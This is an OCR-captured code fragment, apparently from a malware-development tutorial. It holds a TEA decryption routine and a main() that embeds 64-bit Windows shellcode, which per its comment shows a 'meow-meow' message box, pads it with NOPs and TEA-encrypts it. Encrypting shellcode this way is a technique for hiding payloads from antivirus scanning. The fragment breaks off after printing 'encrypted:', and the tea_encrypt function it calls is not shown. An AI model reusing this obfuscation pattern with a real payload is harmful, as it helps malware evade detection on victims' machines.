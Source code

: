 ```cpp

void tea_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = delta * ROUNDS;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
    sum -= delta;
    v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}

int main() {
    // unsigned char key[] = "\x1f\x2e\x3d\x4c\x5b\x6a\x79\x88\x97\xa6\xb5\xc4\xd3\xe2\xf1\x00";
    unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
    unsigned char my_payload[] =
    // 64-bit meow-meow messagebox
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

    int len = sizeof(my_payload);
    int pad_len = (len + 8 - (len % 8)) & 0xFFF8;

    unsigned char padded[pad_len];
    memset(padded, 0x90, pad_len); // pad the shellcode with 0x90
    memcpy(padded, my_payload, len); // copy the shellcode to the padded buffer

    // encrypt the padded shellcode
    for (int i = 0; i < pad_len; i += 8) {
      tea_encrypt(&padded[i], key);
    }

    printf("encrypted:\n");
```